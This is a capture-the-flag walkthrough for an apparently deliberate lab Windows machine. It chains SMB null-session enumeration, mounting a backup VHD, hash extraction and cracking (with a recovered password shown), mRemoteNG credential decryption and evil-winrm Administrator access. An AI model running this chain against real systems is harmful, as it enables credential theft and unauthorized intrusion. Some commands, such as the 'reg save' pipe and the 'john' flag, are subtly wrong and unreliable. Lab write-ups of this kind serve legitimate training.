 SMB Exploitation, Enumerating SMB Shares, VHD Exploration, Exploiting mRemoteNG, Access via Evil-WinRM

---------------------

### SMB Exploitation and Privilege Escalation Tutorial

#### Step 1: Initial Reconnaissance
1. **Port Scanning**: We start by identifying port 445 as an open SMB port on the target IP. SMB (Server Message Block) is a network file sharing protocol.

#### Step 2: Enumerating SMB Shares
1. **Using crackmapexec**: CrackMapExec is a tool used for penetration testing around Active Directory environments. To list available SMB shares, use the following command:
   
   ```bash
   crackmapexec smb ip
   ```

#### Step 3: Null Session Exploitation
1. **Listing Shares with Null Session**: We can exploit a null session to list the shared resources on the target using smbclient:
   
   ```bash
   smbclient -L IP -N
   ```

2. **Viewing Read Permissions**: To see read permissions using smbmap:
   
   ```bash
   smbmap -H IP -u 'null'
   ```

3. **Accessing Backups**: We identify the ability to read and write to backups using smbclient:
   
   ```bash
   smbclient //IP/Backups -N
   ```

#### Step 4: Mounting and Exploring Resources
1. **Creating a Mount Point**: Create a directory for mounting SMB shares:
   
   ```bash
   mkdir /mnt/smb
   ```

2. **Mounting the Share**: Use the `mount` command to mount the share to the mount point:
   
   ```bash
   mount -t cifs //IP/Backups /mnt/smb
   ```

3. **Exploring the Mounted Share**: Navigate to the mounted directory and use the `tree` command to see its contents:
   
   ```bash
   cd /mnt/smb
   tree
   ```

#### Step 5: VHD (Virtual Hard Drive) Exploration
1. **Loading Kernel Module**: Load the kernel module "nbd" to work with virtual hard drives:
   
   ```bash
   modprobe nbd
   ```

2. **Identify NBD Device**: Use the `ls` command to find the /dev/nbdX device to use:
   
   ```bash
   ls /dev
   ```

3. **Using qemu-nbd**: Use qemu-nbd to access the content of a VHD file:
   
   ```bash
   qemu-nbd -r -c /dev/nbd0 "/mnt/smb/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cf.....963.vhd"
   ```

4. **Mounting VHD Partition**: Mount the partition using the nbd device:
   
   ```bash
   mount /dev/nbd0p1 /mnt/vhd
   ```

#### Step 6: Extracting Hashes and Cracking Passwords
1. **Navigate to System and SAM Registries**: Go to the Windows registry directory:
   
   ```bash
   cd /mnt/vhd/Windows/System32/config
   ```

2. **Backup Registries**: Backup the SAM and SYSTEM hives:
   
   ```bash
   reg save HKLM/system system.backup | reg save HKLM/sam sam.backup
   ```

3. **Extracting Hashes**: Use "secretsdump" to extract hashes:
   
   ```bash
   secretsdump -sam SAM -system SYSTEM LOCAL
   ```

4. **Cracking Hashes**: Crack the hashes using a tool like John the Ripper:
   
   ```bash
   john --wordlists=../../wordlist/rockyou.txt hash --format=NT
   bureaulampje     (L4mpje)
   ```

#### Step 7: Privilege Escalation and Access
1. **Connecting via SSH**: Connect using SSH using the obtained credentials:
   
   ```bash
   sshpass -p 'bureaulampje' ssh L4mpje@IP
   ```
900a036bef67206e315dacd62902c1ee
2. **Privilege Escalation Information**: Gather privilege escalation information:
   
   ```bash
   whoami /priv
   whoami /all
   systeminfo
   tasklist
   ```

#### Step 8: Exploiting mRemoteNG
1. **Locate Configuration Files**: Find mRemoteNG configuration files:
   
   ```bash
   cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG
   type confCons.xml
   ```

2. **Decrypting Passwords**: Use "mremoteng_decrypt.py" to decrypt passwords:
   
   ```bash
   python3 mremoteng_decrypt.py -s 'PASSWORD'
   ```

3. **Validating Decrypted Password**: Use the decrypted password with crackmapexec:
   
   ```bash
   crackmapexec smb IP -u 'Administrator' -p 'password'
   ```

4. **Access via Evil-WinRM**: If successful, use evil-winrm to access the machine:
   
   ```bash
   evil-winrm -i IP -u 'Administrator' -p 'passwd'
   ```

#### Step 9: Finding Flags
1. **Locate User Flag**: Explore the user's desktop for the user flag.
3. **Find and Collect Root Flag**: Locate the root flag to complete the challenge.
